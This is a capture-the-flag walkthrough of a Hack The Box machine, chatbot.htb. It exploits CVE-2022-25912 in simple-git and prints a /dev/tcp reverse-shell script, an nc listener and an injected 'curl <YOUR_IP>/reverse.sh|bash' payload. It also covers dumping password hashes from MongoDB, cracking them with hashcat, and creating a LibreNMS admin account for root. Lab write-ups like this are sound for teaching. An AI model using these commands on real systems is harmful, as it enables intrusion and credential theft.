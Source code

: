 User FLAG
-----

```js
// A function that handles the submit request of the user
const handleRequest = async () => {
   // console.log(IP_ADDRESS_PORT + "Asd")
    const email = await document.getElementById('email').value
    const password = await document.getElementById('password').value
//    console.log(email)
//    console.log(password)
    axios.post(`/user/api/login`, {
        "email": email,
        "password": password
    }).then((response) => {
        try {
//            console.log(response.data)
            // here we are gonna show the error
            document.getElementById('error').innerHTML = response.data.Message
            if (response.data.Status == "success") {
                //redirect to the home page
                localStorage.setItem("logged_in", "true");
                window.location.href = `/restricted/home.html`;
            } else if (response.data.Status == "admin") {
                localStorage.setItem("logged_in", "admin");
                window.location.href = `/admin/admin.html`;
            }
        } catch (err) {
            alert("Something went Wrong")
        }
        // do whatever you want if console is [object object] then stringify the response
    })
}
```

You can create an account and login to the website. Here you obtain a JWT with this structure:

```json
{
  "userID": "65f0fe2f7359f1cd4f753fb3",
  "iat": 1710292534
}
```

Even if the local storage is doing something like this:

```js
if (response.data.Status == "success") {
    //redirect to the home page
    localStorage.setItem("logged_in", "true");
    window.location.href = `/restricted/home.html`;
} else if (response.data.Status == "admin") {
    localStorage.setItem("logged_in", "admin");
    window.location.href = `/admin/admin.html`;
}
```

You can't just modify that and try to enter with the admin account, it seems that the JWT is the one that is doing the job.

If you try you i'll get an error like this:

```json
{
  "Status": "error",
}
```

Find `simple-git` subdomain `http://dev-git-auto-update.chatbot.htb` and found that it is vulnerable to `CVE-2022-25912`

Which will give us a reverse shell.

In your machine create a `reverse.sh`

```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1
```

Start listening

```bash
nc -lvnp <PORT>
```

```bash
sudo python3 -m http.server 80
```

In the web browser

```bash
ext::sh -c curl% <YOUR_IP>/reverse.sh|bash
```

Once inside the machine, we are going to stabilize the shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

After running linpeas we found a `mongodb` running on the machine. So we are going to connect to it.

```bash
mongo shell
```

Once inside the mongo shell we are going to list the databases

```bash
show dbs
use trainings # This one has a collection called users
show collections
db.users.find().pretty() # This will show the users and their passwords
```

With the password of `frank_dorky` we can login to the machine.

```bash
hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt -w 3 -O -d 1
```

```bash
ssh frank_dorky@10.10.11.6
cat /home/frank_dorky/user.txt
```

Root FLAG
-----

```bash
netstat -tulnp
ssh -L 3000:127.0.0.1:3000 frank_dorky@10.10.11.6 # LibreNMS is running on port 3000
```

We can create our own admin user with the following command

```bash
cd /opt/librenms
## Usage: ./adduser.php <username> <password> <level> <email>
## Where level 10 is admin and email is optional
./adduser.php test test 10
```
## General

### Version

Alpinejs 3.9.6
Handlebards 4.7.7
Hoganjs
OpenSSH 8.9p1
Nginx 1.18.0
Nodejs
Express
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Etag

### Links

- https://jwt.io/
- https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221
- https://github.com/payloadbox/xss-payload-list
- https://community.librenms.org/t/adding-admin-users-on-librenms/20782
- http://dev-git-auto-update.chatbot.htb/
- https://www.exploit-db.com/exploits/46544